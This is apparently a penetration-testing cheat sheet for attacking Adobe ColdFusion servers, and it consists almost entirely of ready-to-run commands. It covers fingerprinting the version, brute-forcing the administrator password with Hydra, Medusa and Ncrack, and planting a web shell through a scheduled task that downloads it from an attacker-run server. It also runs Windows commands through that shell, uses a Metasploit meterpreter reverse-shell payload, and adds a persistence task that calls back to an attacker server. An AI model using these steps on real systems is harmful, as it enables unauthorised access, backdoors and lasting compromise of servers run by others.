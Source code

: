 ```yaml
---
legal-banner: true
---
```


### **Introduction**

ColdFusion is a commercial rapid web application development platform created by Allaire Corporation, which is now maintained by Adobe Systems. It consists of a programming language known as ColdFusion Markup Language (CFML), an integrated development environment (IDE), and a scalable server for developing and delivering web and mobile applications. ColdFusion is designed to simplify the connection between HTML pages and databases, as well as to assist in building dynamic websites with advanced features that interact with databases, manipulate file content, manage session state, and integrate with various web services.

### **Identifying ColdFusion Version**

1.  Obtaining Version Using URL Path Enumeration:  
    `curl -I http://[COLDFUSION-DOMAIN]/CFIDE/administrator/`
2.  Obtaining Version Using Nmap:  
    `nmap -sV --script=http-coldfusion-version [COLDFUSION-DOMAIN]`
3.  Checking Version from Banner Grabbing:  
    `echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc [COLDFUSION-DOMAIN] 80`
    

### **Default Directories and Files ColdFusion**

1.  Access admin panel:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/administrator/index.cfm`
2.  Checking for Accessible Scripts:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/scripts/`

### **Brute-Force ColdFusion Credentials**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P password_list.txt [COLDFUSION-URL] http-post-form "/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [COLDFUSION-URL] -u admin -P password_list.txt -M http -m FORM:"/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect" -T 10`
3.  Brute-Forcing with Ncrack:  
    `ncrack -p http-form-post://[COLDFUSION-URL]/CFIDE/administrator/index.cfm -U admin -P password_list.txt`
    

### **Remote Code Execution via File Upload**

1.  Download the webshell.cfm from the GitHub repository:  
    `wget https://github.com/reider-roque/pentest-tools/blob/master/shells/webshell.cfm`
2.  Setting Up a Local Server with Python:  
    `python3 -m http.server 8000`
3.  Accessing the ColdFusion Administrator:  
    `Navigate to the admin panel.`
4.  Scheduling a Task to Download the Web Shell:
    - Task Name: `backdoor_download`
    - URL: `http://192.168.119.112:8000/webshell.cfm`
    - Publish: `True`
    - File: `c:\Inetpub\wwwroot\webshell.cfm`
5.  Opening the Web Shell via Browser:  
    `http://10.11.1.10/webshell.cfm`
6.  Use the web shell to execute a command on the server:
    - Command: `c:\windows\system32\cmd.exe`
    - Options: `/c whoami > c:\Inetpub\wwwroot\output.txt`
    - Timeout: `5`
7.  View the output from the executed command:  
    `http://10.11.1.10/output.txt`
    

### **Automating Exploitation with Metasploit**

1.  Launch Metasploit Framework Console:  
    `msfconsole`
2.  Select the ColdFusion Exploit Module:  
    `use exploit/windows/http/coldfusion_fckeditor`
3.  Set the Remote Host (RHOST):  
    `set RHOST [target]`
4.  Set the Payload:  
    `set payload windows/meterpreter/reverse_tcp`
5.  Set the Local Host (LHOST):  
    `set LHOST [YOUR_IP_ADDRESS]`
6.  Execute the Exploit:  
    `exploit`

### **Establish Persistence**

Add a scheduled task in ColdFusion to call back to a command and control server:

```CFML
<cfschedule action="update" task="Backdoor" operation="HTTPRequest"
                url="http://[ATTACKER_SERVER]/backdoor.cfm" interval="600">
```